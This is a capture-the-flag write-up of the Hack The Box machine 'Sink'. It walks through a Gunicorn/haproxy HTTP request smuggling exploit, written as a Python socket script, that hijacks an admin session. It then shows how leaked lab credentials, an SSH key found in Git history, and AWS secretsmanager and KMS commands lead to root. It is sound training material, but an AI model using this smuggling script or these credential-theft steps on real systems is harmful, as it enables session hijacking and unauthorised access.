

# Sink

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.53.114           
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-03 06:39 EST
Nmap scan report for 10.129.53.114
Host is up (0.020s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
5000/tcp open  upnp
```

Detailed scan:

```
$ nmap -p 3000,5000 -sC -sV --min-rate 3000 10.129.53.114
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-03 06:39 EST
Nmap scan report for 10.129.53.114
Host is up (0.013s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=3361b69dad23d2ea; Path=/; HttpOnly
|     Set-Cookie: _csrf=txpcHZ6RiB1aS-05VSKJ0-5qZl86MTcwOTQ2NTk0OTM2OTU1MTI2Mg; Path=/; Expires=Mon, 04 Mar 2024 11:39:09 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Sun, 03 Mar 2024 11:39:09 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title> Gitea: Git with a cup of tea </title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <meta name="theme-color" content="#6cc644">
|     <meta name="author" content="Gitea - Git with a cup of tea" />
|     <meta name="description" content="Gitea (Git with a cup of tea) is a painless
|   HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=33683268230df717; Path=/; HttpOnly
|     Set-Cookie: _csrf=hGm6toH_AOWa7TCGUhRDNhPBo-06MTcwOTQ2NTk1NDU1Mzc1NjE4OA; Path=/; Expires=Mon, 04 Mar 2024 11:39:14 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Sun, 03 Mar 2024 11:39:14 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Page Not Found - Gitea: Git with a cup of tea </title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <meta name="theme-color" content="#6cc644">
|     <meta name="author" content="Gitea - Git with a cup of tea" />
|_    <meta name="description" content="Gitea (Git with a c
5000/tcp open  http    Gunicorn 20.0.0
|_http-title: Sink Devops
|_http-server-header: gunicorn/20.0.0
```

Port 3000 had Gitea, and port 5000 had a Gunicorn server. Added `sink.htb` to the `/etc/hosts` file as per standard HTB practice. 

Note that this particular version of Gunicorn was vulnerable to **HTTP Request Smuggling**. Based on the date of the box release and the exploit, I'd say this is rather accurate.



### Web Enum -> HTTP Request Smuggling

Port 3000 hosted a Gitea instance:


There were 3 users present:


There was one organisation, which was `SinkSolutions`, with all 3 users being part of it. I don't have any credentials and there weren't any public repositories, so I moved on.

Port 5000 had a Login page:


I already knew that this version of Gunicorn was vulnerable to HTTP Request Smuggling, so let's see what I have to use it for. 

Created a new account and logged in to view a blog of some sorts:


The admin email is `admin@sink.htb`, and there were 2 functionalities: A comment section, and a Notes section.

Leaving a comment creates this:


And creating a new note does this:


When the requests are viewed in Burpsuite, I could see that `haproxy` was used to load balance the web application:




The above article states that the software has trouble processing the `\x0b` and `\x0c` characters. 

A request like this would smuggle stuff in:

```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:[\x0b]chunked

0

X
```

### TE.CL -> Gitea Creds -> User

To test this, I wanted to create a script that would do the request smuggling. Using the `requests` module is not possible, since it automatically appends a 'valid' request.

One alternative would be to use sockets to do this.



Using this, I can attempt to construct `valid` and `smuggle` requests. First, let's try to write a new note via request smuggling.

Here's my script. Sending a second cookie would make sure the smuggled result appears in my notes.

```python
import socket

host = '10.129.53.114'
port = 5000

# 30 is just a random length I picked
smuggle = f"""0

POST /notes HTTP/1.1
Host: {host}:{port}
Cookie: session=eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ.ZeRieg.Mx4K8P6kYb2HZVLxPL5O4t--vEE
Content-Length: 30 

note=iamsmuggle"""

smuggle = smuggle.replace("\n", "\r\n")

valid = f"""GET / HTTP/1.1
Host: {host}:{port}
Content-Length: {len(smuggle)}
Transfer-Encoding: \x0bchunked

"""
valid = valid.replace("\n", "\r\n")

final_req = valid + smuggle
final_req = final_req.encode()

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((host, port))
sock.send(final_req)
```

When I sent this script, it created an interesting note.


It included a bit of the previous request I sent. This confirms my script works!

When increasing the `Content-Length`, I noticed that it was writing the request from a delete request to `127.0.0.1`, which was not from me:


Sometimes this request would not pop up, and I would get my own requests printed:


This is probably because some user is trying to access `/notes/delete/1234`, and if the requests happen at the right time, I can smuggle mine to write the next request into the note.

Because I was refreshing so often and sending back to back requests, it was hard to capture the full request to `127.0.0.1`, as such I reset the machine a few times.

Eventually, I was able to retrieve this:


This gives me a new cookie, and when decoded I found that it was the `admin` cookie:


Refreshed the cookie and became the administrator!


The administrator had 3 notes:


The contents were:

```
Chef Login : http://chef.sink.htb Username : chefadm Password : /6'fEGC&zEx{4]zz

Dev Node URL : http://code.sink.htb Username : root Password : FaH@3L>Z3})zzfQ3

Nagios URL : https://nagios.sink.htb Username : nagios_adm Password : g8<H6GK\{*L.fB3C
```

Interesting. Time to test credentials on the Gitea instance, since that was the only thing I could access.

I could login with `root:FaH@3L>Z3})zzfQ3` to view the repositories:


While looking at the repositories and the history, I that AWS was used here:


There were also some other credentials like this key:


I noticed that all of these commits were made using the `marcus` user. The most interesting branch was the `Key_Management` branch since it was archived and sorta hidden. 

The `Preparing for Prod` commit contained a SSH private key:


Using this key, I could `ssh` in as `marcus`.


## Privilege Escalation

### General Enum -> AWS

Ran the usual enumeration scripts of `linpeas.sh` and `pspy64`. The first thing that stood out to me from `linpeas.sh` was that `aws` was installed on the machine:

```
[+] Useful software                                                                          
/usr/local/bin/aws 
```

Normally, HTB machines don't have this, so this is worth looking into. Earlier, I also found a `key` and `secret` variable, and various mentions of AWS in the repositories. 

### AWS Enum -> David Creds

I found the AWS keys and stuff in the `log_management` repository. First, I listed all the services:

```
$ aws list-services
```

This produced a lot of them, and I found the `logs` one. I used `awslocal` instead of `aws`, which just specifies to enumerate the local AWS instances.

I read the `help` manual, and found some interesting commands:

```
marcus@sink:~$ awslocal logs describe-log-groups
{
    "logGroups": [
        {
            "logGroupName": "cloudtrail",
            "creationTime": 1709471041232,
            "metricFilterCount": 0,
            "arn": "arn:aws:logs:us-east-1:000000000000:log-group:cloudtrail",
            "storedBytes": 91
        }
    ]
}
```

`cloudtrail` was a log group. To view the events, I have to obtain the `--log-stream-name` parameter. I found the `describe-log-streams` command, and thought this can be used:

```
marcus@sink:~$ awslocal logs describe-log-streams --log-group-name cloudtrail
{
    "logStreams": [
        {
            "logStreamName": "20201222",
            "creationTime": 1709471281254,
            "firstEventTimestamp": 1126190184356,
            "lastEventTimestamp": 1533190184356,
            "lastIngestionTime": 1709471281269,
            "uploadSequenceToken": "1",
            "arn": "arn:aws:logs:us-east-1:31:log-group:cloudtrail:log-stream:20201222",
            "storedBytes": 91
        }
    ]
}
```

So now I have the name, I can proceed to enumerate the events.

```
marcus@sink:~$ awslocal logs get-log-events --log-stream-name 20201222 --log-group-name cloudtrail
{
    "events": [
        {
            "timestamp": 1126190184356,
            "message": "RotateSecret",
            "ingestionTime": 1709471341491
        },
        {
            "timestamp": 1244190184360,
            "message": "TagResource",
            "ingestionTime": 1709471341491
        },
<TRUNCATED>
        {
            "timestamp": 1433190184360,
            "message": "RotateSecret",
            "ingestionTime": 1709471341491
        },
        {
            "timestamp": 1533190184356,
            "message": "RestoreSecret",
            "ingestionTime": 1709471341491
        }
    ],
<TRUNCATED>
}
```

There was mention of some secrets, and events of `RestoreSecret` and `RotateSecret` are actions done using `secretsmanager`. 

Listing secrets showed this:

```
marcus@sink:~$ awslocal secretsmanager list-secrets
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-lIsJu",
            "Name": "Jenkins Login",
            "Description": "Master Server to manage release cycle 1",
            "KmsKeyId": "",
            "RotationEnabled": false,
            "RotationLambdaARN": "",
            "RotationRules": {
                "AutomaticallyAfterDays": 0
            },
            "Tags": [],
            "SecretVersionsToStages": {
                "1bc3264b-6642-4152-9130-7d8d9f4706c3": [
                    "AWSCURRENT"
                ]
            }
        },
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-cMGRf",
            "Name": "Sink Panel",
            "Description": "A panel to manage the resources in the devnode",
            "KmsKeyId": "",
            "RotationEnabled": false,
            "RotationLambdaARN": "",
            "RotationRules": {
                "AutomaticallyAfterDays": 0
            },
            "Tags": [],
            "SecretVersionsToStages": {
                "94ac2fdb-9bfd-437e-a99b-0e86a5f6c982": [
                    "AWSCURRENT"
                ]
            }
        },
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-UEfjg",
            "Name": "Jira Support",
            "Description": "Manage customer issues",
            "KmsKeyId": "",
            "RotationEnabled": false,
            "RotationLambdaARN": "",
            "RotationRules": {
                "AutomaticallyAfterDays": 0
            },
            "Tags": [],
            "SecretVersionsToStages": {
                "bc9694c6-9b66-44ce-ad18-0fda637dd8a2": [
                    "AWSCURRENT"
                ]
            }
        }
    ]
}
```

There are a few secrets, and retrieving the one for `Jira Support` reveals the credentials of `david`:

```
marcus@sink:~$ awslocal secretsmanager get-secret-value --secret-id "Jira Support"
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-UEfjg",
    "Name": "Jira Support",
    "VersionId": "bc9694c6-9b66-44ce-ad18-0fda637dd8a2",
    "SecretString": "{\"username\":\"david@sink.htb\",\"password\":\"EALB=bcC=`a7f2#k\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1709469396
}
```

Using this, I can `su` to `david`.



### David

As `david`, I had access to the `~/Projects/Prod_Deployment` folder:

```
david@sink:~/Projects/Prod_Deployment$ ls -la
total 12
drwxrwx--- 2 david david 4096 Feb  1  2021 .
drwxr-x--- 3 david david 4096 Dec  2  2020 ..
-rw-r----- 1 david david  512 Feb  1  2021 servers.enc
```

This definitely had to do with the the `Key_Management` repository, and more `aws` since there wasn't `david` could do.

The `Key_Management` repository seemed to be using the `Key Management System` service, which is what KMS stands for:


There's probably a key I can use to decrypt the file. Listing the keys shows a lot:

```
david@sink:~$ awslocal kms list-keys
{
    "Keys": [
        {
            "KeyId": "0b539917-5eff-45b2-9fa1-e13f0d2c42ac",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/0b539917-5eff-45b2-9fa1-e13f0d2c42ac"
        },
        {
            "KeyId": "16754494-4333-4f77-ad4c-d0b73d799939",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/16754494-4333-4f77-ad4c-d0b73d799939"
        },
        {
            "KeyId": "2378914f-ea22-47af-8b0c-8252ef09cd5f",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/2378914f-ea22-47af-8b0c-8252ef09cd5f"
        },
        {
            "KeyId": "2bf9c582-eed7-482f-bfb6-2e4e7eb88b78",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/2bf9c582-eed7-482f-bfb6-2e4e7eb88b78"
        },
        {
            "KeyId": "53bb45ef-bf96-47b2-a423-74d9b89a297a",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/53bb45ef-bf96-47b2-a423-74d9b89a297a"
        },
        {
            "KeyId": "804125db-bdf1-465a-a058-07fc87c0fad0",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/804125db-bdf1-465a-a058-07fc87c0fad0"
        },
        {
            "KeyId": "837a2f6e-e64c-45bc-a7aa-efa56a550401",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/837a2f6e-e64c-45bc-a7aa-efa56a550401"
        },
        {
            "KeyId": "881df7e3-fb6f-4c7b-9195-7f210e79e525",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/881df7e3-fb6f-4c7b-9195-7f210e79e525"
        },
        {
            "KeyId": "c5217c17-5675-42f7-a6ec-b5aa9b9dbbde",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/c5217c17-5675-42f7-a6ec-b5aa9b9dbbde"
        },
        {
            "KeyId": "f0579746-10c3-4fd1-b2ab-f312a5a0f3fc",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/f0579746-10c3-4fd1-b2ab-f312a5a0f3fc"
        },
        {
            "KeyId": "f2358fef-e813-4c59-87c8-70e50f6d4f70",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/f2358fef-e813-4c59-87c8-70e50f6d4f70"
        }
    ]
}
```

I can retrieve more information usingthese keys:

```
david@sink:~$ awslocal kms describe-key --key-id 0b539917-5eff-45b2-9fa1-e13f0d2c42ac
{
    "KeyMetadata": {
        "AWSAccountId": "000000000000",
        "KeyId": "0b539917-5eff-45b2-9fa1-e13f0d2c42ac",
        "Arn": "arn:aws:kms:us-east-1:000000000000:key/0b539917-5eff-45b2-9fa1-e13f0d2c42ac",
        "CreationDate": 1609757848,
        "Enabled": false,
        "Description": "Encryption and Decryption",
        "KeyUsage": "ENCRYPT_DECRYPT",
        "KeyState": "Disabled",
        "Origin": "AWS_KMS",
        "KeyManager": "CUSTOMER",
        "CustomerMasterKeySpec": "RSA_4096",
        "EncryptionAlgorithms": [
            "RSAES_OAEP_SHA_1",
            "RSAES_OAEP_SHA_256"
        ]
    }
}
```

The key thing is the `Enabled` field, which seemed to be `false` for most. I checked each manually, and found that `c5217c17-5675-42f7-a6ec-b5aa9b9dbbde` were both enabled.

```
{
    "KeyMetadata": {
        "AWSAccountId": "000000000000",
        "KeyId": "804125db-bdf1-465a-a058-07fc87c0fad0",
        "Arn": "arn:aws:kms:us-east-1:000000000000:key/804125db-bdf1-465a-a058-07fc87c0fad0",
        "CreationDate": 1609757999,
        "Enabled": true,
        "Description": "Encryption and Decryption",
        "KeyUsage": "ENCRYPT_DECRYPT",
        "KeyState": "Enabled",
        "Origin": "AWS_KMS",
        "KeyManager": "CUSTOMER",
        "CustomerMasterKeySpec": "RSA_4096",
        "EncryptionAlgorithms": [
            "RSAES_OAEP_SHA_1",
            "RSAES_OAEP_SHA_256"
        ]
    }
}

{
    "KeyMetadata": {
        "AWSAccountId": "000000000000",
        "KeyId": "c5217c17-5675-42f7-a6ec-b5aa9b9dbbde",
        "Arn": "arn:aws:kms:us-east-1:000000000000:key/c5217c17-5675-42f7-a6ec-b5aa9b9dbbde",
        "CreationDate": 1609757403,
        "Enabled": true,
        "Description": "Digital Signature Verification",
        "KeyUsage": "SIGN_VERIFY",
        "KeyState": "Enabled",
        "Origin": "AWS_KMS",
        "KeyManager": "CUSTOMER",
        "CustomerMasterKeySpec": "ECC_NIST_P521",
        "SigningAlgorithms": [
            "ECDSA_SHA_512"
        ]
    }
}
```

One was for signatures, the other was for encryption, so I assumed the encryption key was the one to use.

Reading on Hacktricks, it seems that this key can be used with `awslocal kms decrypt` to decrypt files.

```
$ awslocal kms decrypt --ciphertext-blob fileb://servers.enc --encryption-algorithm RSAES_OAEP_SHA_256 --key-id 804125db-bdf1-465a-a058-07fc87c0fad0 --output text
RSAES_OAEP_SHA_256      arn:aws:kms:us-east-1:000000000000:key/804125db-bdf1-465a-a058-07fc87c0fad0 H4sIAAAAAAAAAytOLSpLLSrWq8zNYaAVMAACMxMTMA0E6LSBkaExg6GxubmJqbmxqZkxg4GhkYGhAYOCAc1chARKi0sSixQUGIry80vwqSMkP0RBMTj+rbgUFHIyi0tS8xJTUoqsFJSUgAIF+UUlVgoWBkBmRn5xSTFIkYKCrkJyalFJsV5xZl62XkZJElSwLLE0pwQhmJKaBhIoLYaYnZeYm2qlkJiSm5kHMjixuNhKIb40tSqlNFDRNdLU0SMt1YhroINiRIJiaP4vzkynmR2E878hLP+bGALZBoaG5qamo/mfHsCgsY3JUVnT6ra3Ea8jq+qJhVuVUw32RXC+5E7RteNPdm7ff712xavQy6bsqbYZO3alZbyJ22V5nP/XtANG+iunh08t2GdR9vUKk2ON1IfdsSs864IuWBr95xPdoDtL9cA+janZtRmJyt8crn9a5V7e9aXp1BcO7bfCFyZ0v1w6a8vLAw7OG9crNK/RWukXUDTQATEKRsEoGAWjYBSMglEwCkbBKBgFo2AUjIJRMApGwSgYBaNgFIyCUTAKRsEoGAWjYBSMglEwRAEATgL7TAAoAAA=
```

One can `base64` decode that into a file:

```
david@sink:~/Projects/Prod_Deployment$ echo 'H4sIAAAAAAAAAytOLSpLLSrWq8zNYaAVMAACMxMTMA0E6LSBkaExg6GxubmJqbmxqZkxg4GhkYGhAYOCAc1chARKi0sSixQUGIry80vwqSMkP0RBMTj+rbgUFHIyi0tS8xJTUoqsFJSUgAIF+UUlVgoWBkBmRn5xSTFIkYKCrkJyalFJsV5xZl62XkZJElSwLLE0pwQhmJKaBhIoLYaYnZeYm2qlkJiSm5kHMjixuNhKIb40tSqlNFDRNdLU0SMt1YhroINiRIJiaP4vzkynmR2E878hLP+bGALZBoaG5qamo/mfHsCgsY3JUVnT6ra3Ea8jq+qJhVuVUw32RXC+5E7RteNPdm7ff712xavQy6bsqbYZO3alZbyJ22V5nP/XtANG+iunh08t2GdR9vUKk2ON1IfdsSs864IuWBr95xPdoDtL9cA+janZtRmJyt8crn9a5V7e9aXp1BcO7bfCFyZ0v1w6a8vLAw7OG9crNK/RWukXUDTQATEKRsEoGAWjYBSMglEwCkbBKBgFo2AUjIJRMApGwSgYBaNgFIyCUTAKRsEoGAWjYBSMglEwRAEATgL7TAAoAAA=' |base64 -d > output
david@sink:~/Projects/Prod_Deployment$ file output
output: gzip compressed data, from Unix, original size modulo 2^32 10240
```

Afterwards, I can attempt to extract this archive:

```
david@sink:~/Projects/Prod_Deployment$ mv output output.gz
david@sink:~/Projects/Prod_Deployment$ gzip -d output.gz
david@sink:~/Projects/Prod_Deployment$ ls -la
total 24
drwxrwx--- 2 david david  4096 Mar  3 13:32 .
drwxr-x--- 3 david david  4096 Dec  2  2020 ..
-rw-rw-r-- 1 david david 10240 Mar  3 13:31 output
-rw-r----- 1 david david   512 Feb  1  2021 servers.enc
david@sink:~/Projects/Prod_Deployment$ cat output 
servers.yml0000644000000000000000000000021313774573563012010 0ustar  rootrootserver:
  listenaddr: ""
  port: 80
  hosts:
    - certs.sink.htb
    - vault.sink.htb
defaultuser:
  name: admin
  pass: _uezduQ!EY5AHfe2
```

This password can be used to `su` to `root`:


Rooted! Lots of AWS, and the initial vector was so interesting, never used sockets to send request like that before.